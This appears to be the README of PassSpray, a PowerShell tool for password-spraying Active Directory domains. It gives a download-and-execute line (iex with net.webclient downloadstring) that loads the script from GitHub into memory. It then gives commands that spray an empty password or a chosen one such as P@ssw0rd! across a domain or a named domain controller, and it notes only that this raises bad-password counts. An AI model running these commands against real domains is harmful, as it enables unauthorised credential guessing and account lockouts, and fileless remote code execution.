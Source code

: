 # PassSpray
Domain Password Spray

Important: Spraying passwords increases the Bad Pwd Count of the user you are trying to validate credentials for (for each wrong attempt)

### Load PassSpray in memory
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/PassSpray/main/PassSpray.ps1')
```

### Spray Empty password
```
Invoke-PassSpray
```

### Spray a password across the Domain
```
Invoke-PassSpray -Password P@ssw0rd!
```

### Spray a password across the Domain - Specify Domain and DC
```
Invoke-PassSpray -Password P@ssw0rd! -Domain ferrari.local -DomainController DC01.ferrari.local
```
